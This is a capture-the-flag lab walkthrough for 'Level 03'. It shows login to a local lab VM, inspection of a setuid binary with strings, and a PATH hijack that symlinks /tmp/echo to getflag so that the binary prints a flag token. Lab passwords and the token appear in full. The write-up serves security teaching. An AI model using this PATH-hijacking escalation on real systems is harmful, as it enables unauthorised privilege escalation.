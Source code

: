 # Level 03

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level03@192.168.1.32
	Password: kooda2puivaav1idi4f57q8iq
	```

1. Checking files.

	```sh
	> pwd
	/home/user/level03

	> ls -laRth
	.:
	total 24K
	dr-x------ 1 level03 level03  120 Mar  5  2016 .
	-rwsr-sr-x 1 flag03  level03 8.5K Mar  5  2016 level03
	-r-x------ 1 level03 level03 3.5K Aug 30  2015 .bashrc
	d--x--x--x 1 root    users    340 Aug 30  2015 ..
	-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
	-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
	```

1. Well, `level03` is a good starting point.

	```sh
	> ./level03
	Exploit me
	```

1. Perfect! We are on the good track. Let's start with a basic string analyze.

	```sh
	> strings level03
	/lib/ld-linux.so.2
	...
	/usr/bin/env echo Exploit me
	...
	_init
	```

1. As we can see, we have a strong hint here. A call to `echo` is made through `/usr/bin/env`, we might be able to exploit this by updating our `$PATH`.

	```sh
	# Find `getflag` location
	> whereis getflag
	getflag: /bin/getflag

	# Create a symlink to getflag
	> ln -sf /bin/getflag /tmp/echo

	# Update our $PATH
	> PATH="/tmp:$PATH"
	```

1. Get the flag

	```sh
	> ./level03
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
	```

## Documentation

- Command: [strings](https://man7.org/linux/man-pages/man1/strings.1.html)
- Command: [ln](https://man7.org/linux/man-pages/man1/ln.1.html)
- Environment: [$PATH](https://www.digitalocean.com/community/tutorials/how-to-view-and-update-the-linux-path-environment-variable)
